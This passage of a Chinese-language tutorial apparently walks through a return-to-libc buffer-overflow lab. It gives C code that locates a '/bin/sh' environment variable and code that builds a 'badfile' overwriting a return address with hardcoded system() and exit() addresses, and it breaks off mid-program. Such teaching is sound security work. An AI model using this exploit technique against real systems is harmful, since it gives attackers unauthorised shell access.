 <br>

### 获取参数地址

我们通过`export MYSHELL="/bin/sh"`，给添加环境变量。这个变量会传递给子进程的环境变量中。

我们在子进程中查看这个变量的地址。注意的是，程序名长度会影响"/bin/sh"的位置。所以我们可以用攻击程序的程序名来获取下变量地址。

```c
/**
 * 查看环境变量的地址
 * break main | run | x /100s *((char **)environ)
*/

#include <stdio.h>
#include <stdlib.h>

int main(void){
    char *shell = getenv("MYSHELL");

    if(shell){
        printf("now env the char point size : %u\n",sizeof(char *));

        printf("MYSHELL IS %s\n",shell);

        //64位，不能用%x了
        printf("The address of MYSHELL 0x%lx\n", (unsigned long int)shell);
    }

    return 0;
}
```

<br>

### 生成badfile

```c
/**
 * 用于生成buffer填充内容
 * stack.c中的buffer为100 char
 * bufer和缓冲区之间的距离：0x6c
 * system的地址是： 0xb7da4da0  --> 0x6c+4
 * exit的地址是：   0xb7d989d0  --> 0x6c+8
 * MYSHELL的地址是：0xbffffdd8  --> 0x6c+12
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void){
    char buffer[200];

    /*填充的内容没有\0就好，我这里填充nop，虽然不执行*/
    memset(buffer,0x90,sizeof(buffer));

    *(long *)(buffer+0x6c+4) = 0xb7da4da0;
    *(long *)(buffer+0x6c+8) = 0xb7d989d0;
    *(long *)(buffer+0x6c+12) = 0xbffffdd8;

    FILE *badfile = fopen("badfile","w");
    if(!badfile){
        printf("cannt open badfile");
        exit(0);
    }
```